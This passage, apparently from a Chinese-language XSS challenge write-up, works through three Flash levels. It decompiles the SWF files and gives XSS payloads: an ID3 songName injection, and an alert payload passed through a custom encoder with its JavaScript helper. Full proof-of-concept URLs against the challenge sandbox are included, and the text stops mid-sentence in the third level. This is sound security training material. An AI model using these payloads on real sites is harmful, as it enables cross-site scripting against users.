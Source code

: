 ## 10\. Flash-01

反编译 Flash ，在代码中可以看到，从 mp3 的 ID3 中取出的 songName 数据，进入到了 ExternalInterface.call 中，并且 mp3 文件受控于 mp3 参数。所以指定一个 mp3 文件，把 ID3 中的 songName 修改为 payload：

```
\"));alert(1);}catch(e){}// 
```

POC 为：

```
http://sandbox.host.smartgslb.com/flash_1/XSSC1.swf?mp3=http://test.com/1.mp3 
```

## 11\. Flash-02

Flash 类的题目从这题开始就都比较坑了，仍然反编译 Flash。经过一番那啥代码之后我们大概总结一下：

1.  传入 Flash 的两个参数 init 和 params 两个参数我们都可控
2.  Flash 代码中的 ExternalInterface.call 都无法利用
3.  Flash 通过 addCallback 公开一个 trace 方法给 JS 调用

又经过一番那啥代码，有了新的收获：

1.  可控的 init 参数我们可以指定为 Flash 公开出来的方法 trace，这样 Flash 就会调用这个 trace 方法
2.  trace 方法返回的是 urlEncode 对 location.href 处理后的数据，location.href 我们可控，并且 addCallback 是会产生 XSS 问题的

思路明确，后面就需要搞定 urlEncode，根据这段函数写出下面的函数：

```
a = "\\\"});alert(1);//";
str = ""
for(i=0;i<a.length;i++){
        s = (((a.charCodeAt(i) - 1) % 127) - 10).toString(16);
        str = str + "%" + s;
}
console.log(str); 
```

得到 payload 为：

```
%51%17%72%1e%30%56%61%5a%67%69%1d%26%1e%30%24%24 
```

最终的 POC 为：

```
http://sandbox.host.smartgslb.com/flash_2/?%51%17%72%1e%30%56%61%5a%67%69%1d%26%1e%30%24%24&initfunc=document.mycontent.trace 
```

## 12\. Flash-03

先说依据，这一题光图案我就对了好久。仍旧是反编译 Flash。通过代码看到 Flash 可以加载一个我们可控的 Flash，只有当 img 的 width 和 height 值分别为 200 和 300 的时候才会把 XML 中的数据进入到 htmltext 中，so 我就开始疯狂调整 XML 中的参数，以达到过关目的。但是 width 和 height 是会受 xscale 和 yscale 影响的，在 Flash 代码中对这两个值做了限制就是不能大于 0.8，怎么调整 XML 中的这几个值都无法达到想要的效果，无意中把 width 和 height 值设置为 200 和 300，把 xscale 和 yscale 这两个值设置为 -1，结果竟然它就它就它就......
